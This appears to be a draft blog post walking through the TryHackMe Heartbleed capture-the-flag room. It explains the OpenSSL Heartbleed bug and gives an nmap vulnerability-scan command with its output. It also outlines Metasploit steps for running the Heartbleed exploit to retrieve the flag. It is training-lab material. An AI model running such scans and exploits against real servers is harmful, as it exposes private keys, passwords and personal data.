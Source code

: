 ```yaml
---
layout: post
title: Walkthrough - Heartbleed
published: false
---
```


Tags: Heartbleed, CTF, metasploit.
Description: SSL issues are still lurking in the wild. Can you exploit this web servers OpenSSL?
Difficulty: Easy
URL: [https://tryhackme.com/room/heartbleed](https://tryhackme.com/room/heartbleed)

* * *

## Notes

Heartbleed is a bug due to the implementation in the OpenSSL library from versions 1.0.1 to 1.0.1f(which is very widely used). It allows a user to access memory on the server(which they usually wouldn't have access to). This in turn allows a malicious user to access different kinds of information(that they wouldn't usually have access to due to the encryption and integrity provided by TLS) including:

   - server private key

   - confidential data like usernames, passwords and other personal information

- `sudo nmap -sC -sV -sT --script vuln -O 54.246.8.10 -p22,25,111,113,443,58869`

```
443/tcp   open     ssl/http nginx 1.15.7
| ssl-ccs-injection: 
|   VULNERABLE:
|   SSL/TLS MITM vulnerability (CCS Injection)
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL before 0.9.8za, 1.0.0 before 1.0.0m, and 1.0.1 before 1.0.1h
|       does not properly restrict processing of ChangeCipherSpec messages,
|       which allows man-in-the-middle attackers to trigger use of a zero
|       length master key in certain OpenSSL-to-OpenSSL communications, and
|       consequently hijack sessions or obtain sensitive information, via
|       a crafted TLS handshake, aka the "CCS Injection" vulnerability.
|           
|     References:
|       http://www.cvedetails.com/cve/2014-0224
|       http://www.openssl.org/news/secadv_20140605.txt
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0224
| ssl-heartbleed: 
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|           
|     References:
|       http://www.openssl.org/news/secadv_20140407.txt 
|       http://cvedetails.com/cve/2014-0160/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
```

1. `msfconsole`
2. `search openssl heartbleed`
3. set options
4. exploit 
5. I had to run this exploit about 4-5 times in order to find the flag.

* * * 

![](/assets/heartbleed01.png)

* * * 

